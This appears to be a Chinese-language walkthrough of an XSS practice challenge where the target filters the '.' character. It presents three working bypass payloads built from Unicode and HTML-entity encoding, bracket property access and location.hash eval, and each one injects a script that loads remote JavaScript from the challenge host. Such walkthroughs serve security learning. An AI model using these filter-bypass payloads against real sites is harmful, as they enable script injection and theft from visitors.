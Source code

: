 > **在第一式的基础之上，增加了对点`.` 的过滤**

## 方法一

在这种情况下，`document.write` 这样的用法肯定就不起作用了，得想想怎么绕过对点 `.` 的过滤。

通过查找资料我们可以得知，JavaScript 的对象的属性的读取可以通过类似 **数组** 的方式来进行，比如对象 `document` 的
`write` 方法就可以写成 `document['write']`。

这样就成功绕过了题目对点 `.` 的过滤。

基于第一式方法一，我们直接将 `document.write` 写成 `document['write']`，其他照旧，则有了：

    
    
    http://xcao.vip/test/xss1.php?data=123123"><script>document['write']`\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u0020\u0073\u0072\u0063\u003d\u0022\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0078\u0063\u0061\u006f\u002e\u0076\u0069\u0070\u002f\u0078\u0073\u0073\u002f\u0061\u006c\u0065\u0072\u0074\u002e\u006a\u0073\u0022\u003e\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e`</script>
    

成功加载：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/3b631a3249a84c499f1488ce76e89587.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)

## 方法二

同第一式方法二一样，由于本身构造的 `#` 锚点并不会作为参数被传入后台，并且经过 URL 解码后的 HTML 编码也不含有被过滤的点
`.`，因此第一式方法二的构造语句可以原封不动地拿来使用。即：

    
    
    http://xcao.vip/test/xss2.php?data=%22%3E%3Csvg%3E%3Cscript%3E%26%23x65%3B%26%23x76%3B%26%23x61%3B%26%23x6c%3B%26%23x28%3B%26%23x6c%3B%26%23x6f%3B%26%23x63%3B%26%23x61%3B%26%23x74%3B%26%23x69%3B%26%23x6f%3B%26%23x6e%3B%26%23x2e%3B%26%23x68%3B%26%23x61%3B%26%23x73%3B%26%23x68%3B%26%23x2e%3B%26%23x73%3B%26%23x6c%3B%26%23x69%3B%26%23x63%3B%26%23x65%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x29%3B%3C/script%3E%3C/svg%3E#with(document)body.appendChild(createElement('script')).src='http://xcao.vip/test/alert.js'
    

成功加载：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/4559fcf93aea443fbc728aa681ed3ac0.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)

## 方法三

题目作者给出的一种方法：

    
    
    http://xcao.vip/test/xss2.php?data=xxx%22%3E%3Cscript%3EsetTimeout`\u0065\u0076\u0061\u006c\u0028\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e\u002e\u0068\u0061\u0073\u0068\u002e\u0073\u006c\u0069\u0063\u0065\u0028\u0031\u0029\u0029`;%3C/script%3E#with(document)body.appendChild(createElement('script')).src='http://xcao.vip/xss/alert.js'
    
